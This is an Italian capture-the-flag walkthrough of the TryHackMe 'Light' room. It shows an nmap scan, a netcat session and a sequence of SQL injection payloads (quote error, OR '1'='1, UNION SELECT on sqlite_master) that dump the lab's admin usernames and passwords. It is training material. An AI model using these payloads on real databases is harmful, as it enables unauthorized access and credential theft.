 
#tryhackmelabs #laboratorio #sqlinjection 

https://tryhackme.com/r/room/lightroom

Sto lavorando su un'applicazione di database chiamata Light! Vuoi provarla?  
Se sì, l'applicazione è in esecuzione sulla **porta 1337.** Puoi connetterti ad essa tramite `nc 10.10.38.154 1337`  
Puoi usare il nome utente `smokey`per iniziare.

```
nmap -Pn -sV -O --open -p- 10.10.38.154   
```
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
1337/tcp open  waste?
```

```
nc 10.10.38.154 1337
```
```
smokey
```

```
nc 10.10.38.154 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```
viene restituita la password associata al nome utente.
```
vYQ5ngPpw8AdUmL
```

Per trovare il nome utente dell'amministratore, dobbiamo usare SQL injection

```
smokey'
```
	 aggiungi un apostrofo dopo la richiesta ,solitamente è sufficiente a causare un errore del server quando è presente un semplice SQLi

```
nc 10.10.38.154 1337
Welcome to the Light database!
Error: unrecognized token: "'smokey'' LIMIT 30"
Please enter your username: 
```

```
smokey' OR '1'='1
```
Password: tF8tj2o94WE4LKC

```
smokey' Union Select name FROM sqlite_master WHERE type='table
```
- **Restituisce i Nomi delle Tabelle**: La query restituirà un elenco di tutti i nomi delle tabelle presenti nel database SQLite. Questo è utile per esplorare la struttura del database e vedere quali tabelle sono disponibili per ulteriori interrogazioni.
```
admintable
```

```
smokey' Union Select password FROM admintable WHERE username='smokey
```
```
Password: vYQ5ngPpw8AdUmL
```

```
smokey' Union Select username FROM admintable WHERE username like '%
```
	`WHERE username LIKE '%'`**: Questa condizione filtra i risultati per includere solo i nomi utente che corrispondono al pattern specificato. L'uso di `LIKE '%'` significa che stai cercando tutti i nomi utente, poiché il simbolo `%` rappresenta qualsiasi sequenza di caratteri.

Qual è il nome utente amministratore?
```
TryHackMeAdmin
```

```
smokey' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```
```
Password: mamZtAuMlrsEy5bp6q17
```

```
ssh TryHackMeAdmin@10.10.100.45
```
Qual è la password del nome utente menzionato nella domanda 1?
```
mamZtAuMlrsEy5bp6q17
```

Qual'è la bandiera?

```
smokey' Union Select COUNT(username) FROM admintable WHERE '1
```
Password: 2
ci sono due utenti
```
smokey' Union Select username FROM admintable WHERE username !='TryHackMeAdmin
```
	`WHERE username != 'TryHackMeAdmin'`**: Questa condizione filtra i risultati per includere solo i nomi utente che **non** corrispondono a `'TryHackMeAdmin'`. Quindi, la query restituirebbe tutti i nomi utente dalla tabella `admintable`, eccetto quello specificato.
	
```
Password: flag
```
	è il nome dell'altro user
	
```
smokey' Union Select password FROM admintable WHERE username='flag
```
```
Password: THM{xxxxxxxxxxxxx}
```


